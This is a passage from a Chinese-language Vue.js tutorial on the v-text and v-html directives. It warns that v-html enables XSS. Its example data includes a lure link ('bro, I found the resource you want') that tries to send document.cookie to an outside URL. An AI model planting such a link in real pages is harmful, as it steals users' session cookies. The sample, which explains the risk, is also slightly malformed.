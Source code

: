 ![key的作用](./images/key.png)

## 其它内置指令

### v-text

`v-text` 指令会覆盖元素默认值。

```html
<p v-text="username">这段内容会被覆盖</p>
```

```js
data() { return { username: "Bruce" } }
```

### v-html

> v-html 存在安全问题，容易导致 XSS 攻击

```html
<p v-html="desc">原本内容被覆盖</p>
```

```js
data() {
  return {
    desc: '<h1 style="color: red">红色标题</h1>'，
    str: '<a href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
  }
}
```
